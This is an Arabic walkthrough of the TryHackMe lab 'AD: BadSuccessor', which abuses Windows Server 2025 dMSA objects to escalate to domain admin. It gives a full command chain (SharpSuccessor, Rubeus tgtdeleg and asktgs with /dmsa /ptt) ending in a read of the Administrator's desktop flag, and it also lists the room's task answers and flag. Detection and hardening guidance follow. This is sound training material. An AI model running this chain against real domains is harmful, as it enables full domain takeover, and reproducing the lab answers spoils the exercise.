

# AD: BadSuccessor · الدليل التقني والتوثيق الشامل للغرفة

---

## 1. الترويسة والبيانات الوصفية (Metadata & Room Header)

- **اسم الغرفة بالإنجليزية:** AD: BadSuccessor
- **الاسم بالعربية:** دليل الخدمات النشط: استغلال ثغرة BadSuccessor
- **المعرف البرمجي (Slug):** `adbadsuccessor`
- **المسار التعليمي:** Junior Penetration Tester (الوحدة 09: معرفة الثغرات الأمنية - Vulnerability Knowledge)
- **الترتيب داخل الوحدة:** الغرفة 06 من أصل 09
- **مستوى الصعوبة:** متوسط (Medium)
- **نوع التقييم:** عملي وواقعي في بيئة نطاق (Active Directory Multi-Machine Lab)
- **الوسوم (Tags):** `Active Directory`, `Windows Server 2025`, `dMSA`, `Kerberos`, `Privilege Escalation`, `BadSuccessor`, `Rubeus`, `bloodyAD`

---

## 2. نظرة عامة وملخص تنفيذي (Room Overview & Executive Summary)

تستعرض هذه الغرفة تحليلاً عملياً متقدماً لتكتيك وثغرة **BadSuccessor**، وهي آلية خطيرة لتصعيد الصلاحيات (Privilege Escalation) في بيئات Active Directory تم اكتشافها بواسطة الباحث الأمني Yuval Gordon من شركة Akamai. يرتكز الهجوم على استغلال ميزة "حسابات الخدمة المدارة المفوضة" (delegated Managed Service Accounts - dMSA) التي قدمتها مايكروسوفت لأول مرة في نظام **Windows Server 2025** لتسهيل ترحيل حسابات الخدمات القديمة. إذا امتلك مستخدم عادي صلاحيات إنشاء كائنات أو تعديل الـ ACL على وحدة تنظيمية (OU)، يستطيع إنشاء كائن dMSA والتلاعب بالسمة `msDS-ManagedAccountPrecededByLink` لربط حسابه بحساب مدير النطاق `Administrator`. يقود ذلك إلى خداع مركز توزيع مفاتيح كيربيروس (KDC) لإصدار تذاكر خدمة بصلاحيات Domain Admin كاملة، واستخراج راية سطح المكتب `THM{Successors_Unplanned_Upgrade}` دون الحاجة لأي تخمين لكلمات المرور.

---

## 3. الهيكلية وتحليل سطح الهجوم (Architecture & Attack Surface Analysis)



---

## 4. الأهداف التعليمية ومصفوفة المهارات (Pedagogical Objectives & Skills Matrix)

| المهارة المستهدفة | الوصف التقني للقدرة المكتسبة | معيار التحقق والتقييم |
| :--- | :--- | :--- |
| **تطور حسابات الخدمة في AD** | التمييز بين sMSA و gMSA و dMSA ومعرفة نظام ويندوز الذي قدمها. | الإجابة بـ `Windows Server 2025`. |
| **تدقيق صلاحيات الوحدات التنظيمية** | فحص قيود التحكم بالوصول (ACEs) للبحث عن صلاحيات إنشاء الكائنات. | تحديد الحساب الثالث: `ditall`. |
| **استغلال dMSA على ويندوز** | استخدام SharpSuccessor و Rubeus لتنفيذ هجوم الترحيل وحقن التذاكر. | استخراج الراية `THM{Successors_Unplanned_Upgrade}`. |
| **الاستغلال المتقدم من لينكس** | توظيف أداة `bloodyAD` ومدير الحزم `uv` لإجراء نفس الهجوم عبر LDAP. | إتمام المهام بنجاح عبر سطر الأوامر. |
| **هندسة الرصد والتحصين** | مراقبة Event ID 5136 وتقييد صلاحيات إنشاء الكائنات وتفعيل Protected Users. | صياغة استراتيجيات التحصين المؤسسي. |

---

## 5. الجدول التفصيلي لمهام الغرفة (Comprehensive Task Breakdown)

| رقم المهمة | اسم المهمة الأصلي | العنوان بالعربية | السؤال الأساسي | القيمة المعتمدة |
| :---: | :--- | :--- | :--- | :---: |
| **Task 01** | Introduction | مقدمة: ثغرة BadSuccessor | Let’s explore the BadSuccessor attack. | `No answer needed` |
| **Task 02** | Starting the Network | تهيئة شبكة المختبر والاتصال | I have confirmed that my network is working... | `No answer needed` |
| **Task 03** | Technical Background | الخلفية التقنية وتطور حسابات الخدمة | Which version of MS Windows introduced dMSA? | `Windows Server 2025` |
| **Task 04** | Reconnaissance | الاستطلاع وتدقيق صلاحيات الـ OU | What is the username of the third account? | `ditall` |
| **Task 05** | Exploitation Using Windows | الاستغلال العملي من بيئة ويندوز | What is the flag on the Administrator’s Desktop? | `THM{Successors_Unplanned_Upgrade}` |
| **Task 06** | Exploitation Using Linux | الاستغلال العملي من بيئة لينكس | I love Linux! | `No answer needed` |
| **Task 07** | Mitigation and Conclusion | التحصين المؤسسي والخاتمة | To explore other recent vulnerabilities... | `No answer needed` |

---

## 6. المنهجية واستراتيجية الاستطلاع (Methodology & Reconnaissance Strategy)

1. **الاتصال بمحطة العمل:** تسجيل الدخول عبر RDP إلى محطة العمل `10.211.101.20` بحساب المستخدم `tbyte`.
2. **استكشاف صلاحيات الوحدات التنظيمية:** تشغيل سكربت `Get-BadSuccessorOUPermissions.ps1` للبحث عن الوحدات التنظيمية التي تمنح حقوق `CreateChild` لحسابات عادية.
3. **توليد كائن dMSA المفوض:** استدعاء أداة `SharpSuccessor.exe` لإنشاء الكائن وربطه بـ `Administrator`.
4. **استخراج تذكرة TGT:** استخدام تقنية التفويض غير المقيد عبر `Rubeus.exe tgtdeleg`.
5. **تبادل التذاكر وانتحال الشخصية:** طلب تذكرة خدمة CIFS وحقنها في جلسة تسجيل الدخول الحالية (`/ptt`).
6. **الوصول لأصول النطاق:** استعراض وقراءة الملفات الحساسة على خادم الـ DC عبر مشاركة الشبكة `\\DC-LAB2025-01\c$`.

---

## 7. الشرح العملي المتعمق لكل محور (Deep-Dive Practical Walkthrough)

### أ. فحص صلاحيات الوحدات التنظيمية في PowerShell
```powershell
PS C:\PoC> .\Get-BadSuccessorOUPermissions.ps1
# مخرجات الفحص تحدد الحسابات التالية على OU=LabOU:
# 1. hmann
# 2. tbyte
# 3. ditall
```

### ب. تنفيذ سلسلة الهجوم عبر أدوات ويندوز
```powershell
# 1. إنشاء وربط كائن dMSA
PS C:\PoC> .\SharpSuccessor.exe add /path:"ou=LabOU,dc=tryhackme,dc=local" /account:tbyte /name:pentest_dmsa /impersonate:Administrator

# 2. استخراج TGT
PS C:\PoC> .\Rubeus.exe tgtdeleg /nowrap

# 3. طلب تذكرة dMSA TGS وحقنها
PS C:\PoC> .\Rubeus.exe asktgs /targetuser:pentest_dmsa$ /service:krbtgt/tryhackme.local /opsec /dmsa /nowrap /ptt /ticket:<BASE64_TGT>

# 4. طلب تذكرة CIFS بصلاحيات المدير
PS C:\PoC> .\Rubeus.exe asktgs /user:pentest_dmsa$ /service:cifs/DC-LAB2025-01.tryhackme.local /opsec /dmsa /nowrap /ptt /ticket:<BASE64_TGS>

# 5. قراءة الراية من سطح مكتب المدير
PS C:\PoC> type \\DC-LAB2025-01.tryhackme.local\c$\Users\Administrator\Desktop\flag.txt
```
الراية المسترجعة: `THM{Successors_Unplanned_Upgrade}`.

---

## 8. تحليل الثغرات وآليات الاستغلال (Vulnerability Analysis & Exploitation Mechanics)

### أ. الخلل المنطقي في التحقق من صحة السلف (Predecessor Link)
- صُممت ميزة dMSA في **Windows Server 2025** لتسهيل ترحيل حسابات الخدمات.
- عندما يُطلب من خادم KDC إصدار تذكرة لحساب dMSA، يفحص السمة `msDS-ManagedAccountPrecededByLink`.
- نظراً لأن KDC يثق في صحة السمة المكتوبة في الدليل دون التحقق مما إذا كان منشئ الكائن يمتلك صلاحية إدارة حساب السلف (`Administrator`)، يتم توليد تذكرة كيربيروس تحتوي على الهوية الكاملة للمدير.

---

## 9. الكشف وسجلات النظام والأثر الجنائي (Detection, Logging & Forensics)

- **سجلات تعديل كائنات الدليل (Event ID 5136):**
  تسجيل إضافة السمة الحساسة على خادم الـ DC:
  ```text
  Event ID: 5136
  Object Class: msDS-DelegatedManagedServiceAccount
  Attribute LDAP Display Name: msDS-ManagedAccountPrecededByLink
  Value: CN=Administrator,CN=Users,DC=tryhackme,DC=local
  ```
- **سجلات طلب تذاكر كيربيروس (Event ID 4769):**
  رصد طلبات تذاكر خدمة صادرة لحسابات dMSA تنتهي بعلامة `$` غير معتادة ترتبط بالحسابات الإدارية السيادية.

---

## 10. التحصين والمعالجة الجذرية (Hardening, Mitigation & Remediation Guide)

1. **تقييد صلاحيات إنشاء الكائنات:**
   إلغاء صلاحيات `CreateChild` و `GenericAll` العامة على الوحدات التنظيمية، وتحديد فئات كائنات محددة مسموح بإنشائها فقط (مثل `computer` أو `user`).
2. **قصر إدارة dMSA على مديري النطاق:**
   عزل إنشاء وإدارة كائنات `msDS-DelegatedManagedServiceAccount` بحيث لا يُسمح بها إلا لحسابات المستوى صفر (Tier-0 Domain Admins).
3. **تفعيل مجموعة Protected Users:**
   إضافة الحسابات الإدارية لمجموعة "المستخدمون المحميون" لمنع تفويض كيربيروس عنها.

---

## 11. الدفاع في العمق والبيئات المؤسسية (Defense-in-Depth)

- **نموذج تفويض الصلاحيات المؤسسي (Tiered Administration):** الفصل الصارم بين إدارة محطات العمل والخوادم العادية وبين خوادم إدارة النطاق (DCs).
- **المراقبة المستمرة للتغييرات:** استخدام أنظمة SIEM المتقدمة لتنبيه فرق الأمن فور كتابة أو تعديل أي سمة تحتوي على كلمة `PrecededBy` في دليل Active Directory.

---

## 12. مقارنة الأدوات والأوامر السريعة (Tool Comparison & Quick Reference)

| الأداة (Tool) | البيئة المشغلة | الوظيفة في سيناريو الهجوم |
| :--- | :--- | :--- |
| **SharpSuccessor** | Windows (.NET) | إنشاء كائن dMSA وحقن سمات الترحيل عبر بروتوكول LDAP |
| **Rubeus** | Windows (.NET) | استخراج التذاكر عبر التفويض المزيف وتبادل تذاكر dMSA وحقنها في الذاكرة |
| **bloodyAD** | Linux (Python) | إدارة وتعديل كائنات وسجلات Active Directory عن بعد |
| **uv** | Linux (CLI) | تثبيت وتشغيل أدوات بايثون المعزولة بسرعة فائقة |

---

## 13. الأخطاء الشائعة وحل المشكلات (Common Pitfalls & Troubleshooting)

1. **الخلط بين gMSA و dMSA:** حسابات gMSA تم تقديمها في Windows Server 2012، بينما dMSA تم تقديمها في **Windows Server 2025**.
2. **نسيان معامل `/ptt` في Rubeus:** عدم تمرير المعامل `/ptt` يعني توليد التذكرة وطباعتها بنص Base64 فقط دون حقنها في جلسة تسجيل الدخول الحالية.
3. **عدم مطابقة زمن الشبكة:** تتطلب بروتوكولات كيربيروس تزامن الوقت بين جهاز المهاجم وخادم النطاق (فارق زمني أقل من 5 دقائق).

---

## 14. المراجع والمعايير الدولية (References & Standards)

- رابط الغرفة الرسمي على TryHackMe: [https://tryhackme.com/room/adbadsuccessor](https://tryhackme.com/room/adbadsuccessor)
- بحث شركة Akamai عن ثغرة BadSuccessor: [Akamai Security Research](https://www.akamai.com/blog/security-research/badsuccessor-abusing-dmsa-privilege-escalation)
- وثيقة SpecterOps للتحصين: [Understanding & Mitigating BadSuccessor](https://posts.specterops.io/)
- توثيق مايكروسوفت لحسابات dMSA: [Microsoft Learn dMSA Documentation](https://learn.microsoft.com/)
